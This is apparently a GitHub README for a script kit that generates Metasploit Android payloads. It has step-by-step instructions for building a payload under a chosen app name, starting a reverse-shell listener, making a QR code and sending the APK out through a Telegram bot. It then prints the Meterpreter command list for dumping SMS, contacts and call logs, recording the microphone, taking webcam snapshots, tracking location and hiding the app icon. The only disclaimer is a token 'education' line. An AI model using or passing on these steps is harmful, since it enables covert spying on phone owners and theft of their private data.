 # Android_payload
For only Education perpouse
  git clone https://github.com/mhlove1224/Android_payload.git

  cd Android_payload/
  
First install setup.sh using 
bash setup.sh

after this
use 

bash mhzone.sh

choose number 1 to make a Payload 
choose number 2 to to start listener
choose number 3 to make QR code choose number 4 to upload payload on telegram 

how to make payload 
choose number 1 and enter your IP address if you don't know about it you use 127.0.0.1
no type your port default if 4444
you choose anyone 
no set your app name 
it will go into your storage/ emulated/0 place 


now a time to assess device 
choose 2 option
and press enter 
enter l hist #example 127.0.0.1
lport #example 4444
it start automatically wait for 2 to 5 minute 
how to asst their file 
you type help on metaspolit 


Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter s
                              cript
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as
                               a background thread
    channel                   Displays information or control
                              active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (
                              for http/https)
    disable_unicode_encoding  Disables encoding of unicode str
                              ings
    enable_unicode_encoding   Enables encoding of unicode stri
                              ngs
    exit                      Terminate the meterpreter sessio
                              n
    get_timeouts              Get the current session timeout
                              values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Pos
                              t module
    irb                       Open an interactive Ruby shell o
                              n the current session
    load                      Load one or more meterpreter ext
                              ensions
    machine_id                Get the MSF ID of the machine at
                              tached to the session
    pry                       Open the Pry debugger on the cur
                              rent session
    quit                      Terminate the meterpreter sessio
                              n
    read                      Reads data from a channel
    resource                  Run the commands stored in a fil
                              e
    run                       Executes a meterpreter script or
                               Post module
    secure                    (Re)Negotiate TLV packet encrypt
                              ion on the session
    sessions                  Quickly switch to another sessio
                              n
    set_timeouts              Set the current session timeout
                              values
    sleep                     Force Meterpreter to go quiet, t
                              hen re-establish session
    transport                 Manage the transport mechanisms
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current ses
                              sion
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command                   Description
    -------                   -----------
    cat                       Read the contents of a file to t
                              he screen
    cd                        Change directory
    checksum                  Retrieve the checksum of a file
    cp                        Copy source to destination
    del                       Delete the specified file
    dir                       List files (alias for ls)
    download                  Download a file or directory
    edit                      Edit a file
    getlwd                    Print local working directory (a
                              lias for lpwd)
    getwd                     Print working directory
    lcat                      Read the contents of a local fil
                              e to the screen
    lcd                       Change local working directory
    ldir                      List local files (alias for lls)
    lls                       List local files
    lmkdir                    Create new directory on local ma
                              chine
    lpwd                      Print local working directory
    ls                        List files
    mkdir                     Make directory
    mv                        Move source to destination
    pwd                       Print working directory
    rm                        Delete the specified file
    rmdir                     Remove directory
    search                    Search for files
    upload                    Upload a file or directory


Stdapi: Networking Commands
===========================

    Command                   Description
    -------                   -----------
    ifconfig                  Display interfaces
    ipconfig                  Display interfaces
    portfwd                   Forward a local port to a remote
                               service
    route                     View and modify the routing tabl
                              e


Stdapi: System Commands
=======================

    Command                   Description
    -------                   -----------
    execute                   Execute a command
    getenv                    Get one or more environment vari
                              able values
    getpid                    Get the current process identifi
                              er
    getuid                    Get the user that the server is
                              running as
    localtime                 Displays the target system local
                               date and time
    pgrep                     Filter processes by name
    ps                        List running processes
    shell                     Drop into a system command shell
    sysinfo                   Gets information about the remot
                              e system, such as OS


Stdapi: User interface Commands
===============================

    Command                   Description
    -------                   -----------
    screenshare               Watch the remote user desktop in
                               real time
    screenshot                Grab a screenshot of the interac
                              tive desktop


Stdapi: Webcam Commands
=======================

    Command                   Description
    -------                   -----------
    record_mic                Record audio from the default mi
                              crophone for X seconds
    webcam_chat               Start a video chat
    webcam_list               List webcams
    webcam_snap               Take a snapshot from the specifi
                              ed webcam
    webcam_stream             Play a video stream from the spe
                              cified webcam


Stdapi: Audio Output Commands
=============================

    Command                   Description
    -------                   -----------
    play                      play a waveform audio file (.wav
                              ) on the target system


Android Commands
================

    Command                   Description
    -------                   -----------
    activity_start            Start an Android activity from a
                               Uri string
    check_root                Check if device is rooted
    dump_calllog              Get call log
    dump_contacts             Get contacts list
    dump_sms                  Get sms messages
    geolocate                 Get current lat-long using geolo
                              cation
    hide_app_icon             Hide the app icon from the launc
                              her
    interval_collect          Manage interval collection capab
                              ilities
    send_sms                  Sends SMS from target session
    set_audio_mode            Set Ringer Mode
    sqlite_query              Query a SQLite database from sto
                              rage
    wakelock                  Enable/Disable Wakelock
    wlan_geolocate            Get current lat-long using WLAN
                              information


Application Controller Commands
===============================

    Command                   Description
    -------                   -----------
    app_install               Request to install apk file
    app_list                  List installed apps in the devic
                              e
    app_run                   Start Main Activity for package
                              name
    app_uninstall             Request to uninstall application

For more info on a specific command, use <command> -h or help <command>.








if you want to upload this file on telegram you need to make your telegram using batfather first enter your bot token second enter chat ID it will auto upload on your bot
